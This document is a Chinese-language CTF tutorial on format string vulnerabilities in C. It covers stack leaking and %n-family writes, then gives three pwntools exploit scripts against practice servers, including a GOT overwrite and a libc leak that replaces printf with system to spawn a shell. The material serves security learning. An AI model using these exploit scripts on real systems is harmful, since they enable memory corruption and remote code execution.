


# 格式化字符串2月

## 1. 基础知识

一些输出函数例如 `printf`，`sprintf` 都接受参数输入，例如 `printf("%d",s)`。但如果在编写函数时为方便写为 `printf(s)`，则可通过对 `s` 输入的构造来执行一些操作。

格式化字符串函数可以接受可变数量的参数，并将第一个参数作为格式化字符串，根据其来解析之后的参数。通俗来说，格式化字符串函数就是将计算机内存中表示的数据转化为我们人类可读的字符串格式。

### 举例

**正常版**

```c
printf("%d", a);

```

**漏洞版**

```c
printf(a);

```

---

## 2. 常用的格式化字符串函数

* **输入**：`scanf`
* **输出**：`printf`，`fprintf`，`vprintf`，`vfprintf`，`sprintf`，`snprintf`，`vsnprintf`……

对于 `printf` 函数大家应该都很熟悉了。

---

## 3. 常用字符说明

| 格式符 | 类型 | 说明 |
| --- | --- | --- |
| **%d** | 十进制 | 输出十进制整数 |
| **%s** | 字符串 | 从内存中读取字符串 |
| **%x** | 十六进制 | 输出十六进制数 |
| **%c** | 字符 | 输出字符 |
| **%p** | 指针 | 指针地址 |
| **%n** | 计数 | 到目前为止所写的字符数 |

---

## 4. 栈上有 flag 那就——泄露栈内存

* **利用 `%x**` 来获取对应栈的内存，但建议使用 **`%p`**，可以不用考虑位数的区别。
* **利用 `%s**` 来获取变量所对应地址的内容，只不过有零截断。
* **利用 `%order$x**` 来获取指定参数的值。同样把 `x` 改为 `s` 来获取指定参数对应地址的内容。

---

## 5. 常见修改字符

| 格式符 | 说明 |
| --- | --- |
| **%hhn** | 写一字节 |
| **%hn** | 写两字节 |
| **%n** | 写四字节 |
| **%ln** | 32位写四字节，64位写八字节 |
| **%lln** | 写八字节 |

---

## 6. 例题讲解

### 例题 1

<div align="center">
  
  <br />
  <br />
  
</div>

```python
#!/usr/bin/env python
from pwn import *

p = remote('pwn2.jarvisoj.com', 9895)
x_addr = 0x0804a02c
payload = p32(x_addr) + '%11$n'

p.sendline(payload)
print p.recv()
p.interactive()

```

### 例题 2

比较依靠 gdb。主要注意函数 `exit` 修改 got 表地址为 `readflag` 的地址。

```python
# author: My6n
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

# io = process('./pwn')
io = remote('39.106.57.152', 30745)
elf = ELF('./pwn')

exit_got_addr = elf.got['exit']
readflag_addr = elf.symbols['read_flag']

# gdb.attach(io)
# pause()

payload = b'aaaaaa' + fmtstr_payload(11, {exit_got_addr: readflag_addr}, 40, 'byte')
io.sendlineafter('>', payload)
io.interactive()

```

### 例题 3

**偏移 6**

```python
print(elf.got['printf'])
p32(elf.got['printf']) + "%6$s"

```

**分析逻辑：**

> * **已知**：`elf.got['printf']` 是 GOT 表中存储 `printf` 真实地址的那个内存位置的地址（比如 `0x0804a010`）。
> * **未知**：该地址（`0x0804a010`）里面当前存的是哪个值？也就是 `printf` 函数在内存中的真实地址（比如 `0xf7e6c690`）。
> * **目标**：我们要通过漏洞（比如格式化字符串漏洞），读取 `0x0804a010` 这个地址中存储的那 4 个字节数据，也就是 `printf` 的真实地址。
> 
> 

<div align="center">
  <br />
  
</div>

```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
p = remote("node3.buuoj.cn", 29522)
# p = process('./wdb_2018_2nd_easyfmt')
elf = ELF('./wdb_2018_2nd_easyfmt')

printf_got = elf.got["printf"]
payload = p32(printf_got) + "%6$s"

p.sendlineafter("repeater?\n", payload)
p.recv(4)
printf_addr = u32(p.recv(4))
print("printf_addr ---> ", hex(printf_addr))

# libc = LibcSearcher('printf', printf_addr)
# libc_base = printf_addr - libc.dump('printf')
# system = libc_base + libc.dump('system')

libc = ELF('./libc-2.23(32).so')
libc_base = printf_addr - libc.symbols["printf"]
system_addr = libc_base + libc.symbols['system']
print("system_addr ---> ", hex(system_addr))

payload = fmtstr_payload(6, {printf_got: system_addr})
p.sendline(payload)
p.sendline('/bin/sh\x00')

p.interactive()

```